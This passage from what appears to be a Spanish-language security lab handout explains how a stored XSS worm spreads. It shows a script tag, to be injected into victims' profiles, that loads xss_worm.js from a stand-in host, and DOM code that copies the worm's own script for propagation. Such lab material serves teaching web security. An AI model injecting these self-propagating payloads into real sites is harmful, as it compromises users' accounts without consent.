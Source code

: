 \paragraph{A través de un Link:} Si el gusano se incluye usando el atributo {\tt src} dentro del tag {\tt <script>},
su auto-propagación es mucho más fácil. 
Hemos discutido el atributo {\tt src} en la Tarea 1, a continuación se da un ejemplo.  El gusano puede copiar el siguiente
tag {\tt <script>} en el perfil de la víctima, logrando de esta manera infectar a la misma.

\begin{lstlisting}
<script type="text/javascript" src="http://www.example.com/xss_worm.js">
</script>
\end{lstlisting} 


\paragraph{A través del DOM:} Si el programa JavaScript (es decir el gusano) está embebido en un perfil infectado, para propagarse a otro perfil, el código del gusano puede servirse de las APIs del DOM para obtener una copia de sí mismo desde la página web.
A continuación se muestra un ejemplo del uso de las APIs del DOM. En el siguiente código de ejemplo se obtiene una copia del mismo y se muestra en una ventana de alerta:

{\footnotesize
\begin{lstlisting}
<script id="worm">
   var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; (*@ \ding{192} @*)
   var jsCode = document.getElementById("worm").innerHTML;          (*@ \ding{193} @*)
   var tailTag = "</" + "script>";                                  (*@ \ding{194} @*)
   
   var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); (*@ \ding{195} @*)
      
   alert(jsCode);
</script>
\end{lstlisting}
}

Cabe señalar que {\tt innerHTML} (line ) sólo devuelve el código que está dentro del tag de {\tt script} sin incluir los tags de apertura y de cierre, es por eso que necesitamos agregar el tag de inicio {\tt <script id="worm">} (Línea ) y el tag de cierre {\tt </script>} (Línea ).

Cuando la información es enviada en un Request HTTP POST y se usa el valor {\tt
application/x-www-\\form-urlencoded} para el encabezado HTTP {\tt Content-Type}, el cual es usado en nuestro código, la información que se envía debe ser codificada. El esquema de codificación o el {\tt encoding schema} es llamado \textit{URL encoding}, el objetivo del URL Encoding es reemplazar los caracteres no alfanuméricos con su código ASCII correspondiente, usando el siguiente formato {\tt \%HH}, el signo de porcentaje y dos dígitos hexadecimales. La función {\tt encodeURIComponent()} en la línea  es usada para realizar este URL Enconding.

